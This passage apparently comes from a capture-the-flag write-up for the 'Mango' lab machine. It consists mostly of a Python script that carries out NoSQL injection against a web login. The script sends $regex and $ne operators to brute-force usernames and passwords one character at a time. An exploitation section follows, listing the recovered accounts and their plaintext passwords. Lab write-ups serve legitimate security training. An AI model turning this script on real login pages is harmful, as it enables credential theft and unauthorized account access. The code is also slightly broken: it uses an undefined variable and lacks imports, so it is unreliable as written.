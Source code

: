 ```python

def query(url, data):
    return requests.post(url, data=data, allow_redirects=False)

def enumerate_users(url, letters):
    print("Brute forcing users.....")
    for char in characters:
        param = {'username' + '[$regex]' : "^" + char + ".*", 'password' + '[$ne]' : '1'}
        post = query(url, param)
        if post.status_code != 302:
            continue
        bruteForce = True
        username = char
        while bruteForce:
            bruteForce = False
            for let in letters:
                payload = username + let
                param = {'username' + '[$regex]' : "^" + payload + ".*", 'password' + '[$ne]' : '1' + 'login'}
                post = query(url, param)
                if post.status_code == 302:
                    username = payload
                    bruteForce = True
        print(f'Found potential username: {username}')

def enumerate_passwords(url, letters):
    print("Brute forcing passwords.....")
    for char in letters:
        param = {'password' + '[$regex]' : "^" + char + ".*", 'username' + '[$ne]' : '1' + 'login'}
        post = query(url, param)
        if post.status_code != 302:
            continue
        bruteForce = True
        password = char
        while bruteForce:
            bruteForce = False
            for let in letters:
                payload = password + let
                param = {'password' + '[$regex]' : "^" + payload + ".*", 'username' + '[$ne]' : '1'}
                post = query(url, param)
                if post.status_code == 302:
                    password = payload
                    bruteForce = True
        print(f'Found potential password: {password}')

if __name__ == "__main__":
    characters = string.printable
    for char in characters:
        if char in "$^&*|.+\?":
            characters = characters.replace(char, '')
    enumerate_users("http://staging-order.mango.htb/", characters)
    enumerate_passwords("http://staging-order.mango.htb/", characters)
```
3. ### Exploitation
The script took a few minutes to execute, but I was able to retrieve the following users:
```
admin
mango
```
and the following passwords:
```
h3mXK8RhU~f{]f5H
t9KcS3>!0B#2
```